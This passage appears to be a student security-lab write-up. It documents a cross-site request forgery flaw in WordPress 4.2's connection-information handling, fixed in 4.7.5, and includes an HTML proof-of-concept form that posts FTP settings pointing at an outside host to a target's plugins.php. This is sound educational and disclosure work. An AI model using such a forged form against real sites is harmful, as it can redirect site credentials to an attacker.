 3. (Required) Cross-Site Request Forgery in WordPress Connection Information
  - [X] Summary: 
    - Vulnerability types:CSRF
    - Tested in version:4.2
    - Fixed in version: 4.7.5
  - [X] GIF Walkthrough: <img src="csrf.gif" width="800">
  - [X] Steps to recreate: 
    -This issue exists in the method request_filesystem_credentials() (/wp-admin/includes/file.php). So here is a proof of concepts:
    ```
    <html>
      <body>
          <form action="http://<target>/wp-admin/plugins.php" method="POST">
            <input type="hidden" name="hostname" value="sumofpwn.nl" />
            <input type="hidden" name="connection_type" value="ftp" />
            <input type="hidden" name="password" value="password" />
            <input type="submit" value="Submit request" />
          </form>
      </body>
    </html>
    ```
  - [X] Affected source code:
    - [Link 3](https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_connection_information.html)
